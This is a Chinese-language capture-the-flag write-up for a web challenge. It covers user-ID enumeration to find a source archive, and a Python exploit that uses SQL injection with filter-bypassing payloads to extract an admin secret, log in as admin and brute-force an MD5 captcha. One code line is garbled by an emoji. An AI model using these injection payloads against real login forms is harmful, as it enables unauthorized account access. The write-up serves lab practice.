 
# web-this1

进来首先发现一个登陆页面, 但是没有账号啊, 所以第一步就是应该找注册的地方

扫描后发现register.php

注册后跳转到/profile.php?id=xx, 我们不是第一个登陆者, 好奇id=1会是什么

跳到/profile.php?id=1, 发现提示/pwnhub_here_code.zip

获取源码 [x]

审计源码发现登陆入口存在sql注入, 使用别名注入得到admin的secret, 并利用注入登陆admin [x]

访问flag.php提交sha1和secret [x]

exp:(代码未排版\*)

```python
import requests
import random
import re
import hashlib

url='http://10.0.0.36:9993/'
s=str(random.randint(10000000,200000000))

#step=1
cookies={'PHPSESSID':s}
data={'username':'admin','password':"1'),'')) union seselectlect t.4,t.4 from (selselectect 1,2,3,4,5 union SELselectECT * from users)t LIMIT 1,1;\x00"}

secret = requests.post(url+'index.php',data=data,cookies=cookies,allow_redirects=False).headers['Location'][-36:]

s=str(random.randint(10000000,200000000))
cookies={'PHPSESSID'😒}
data={'username':'admin','password':"1'),'1')) oorr 1=1;\x00"}

requests.post(url+'index.php',data=data,cookies=cookies)    
r=requests.get(url+'flag.php',cookies=cookies).text
captcha= re.findall('[0-9a-f]{4}',r)[0].decode('utf-8')

for i in range(1000000,2000000):
    if hashlib.md5(str(i)).hexdigest()[12:16]==captcha:
        data={'duihuanma':secret,'captcha':str(i)}
        break

s=requests.post(url+'flag.php',data=data,cookies=cookies).text
print re.findall('[{}flag0-9a-f]{20,}',s)[0]
```

`flag：flag{93adebd3baf15dde0ceb3e9af109ad8f}`
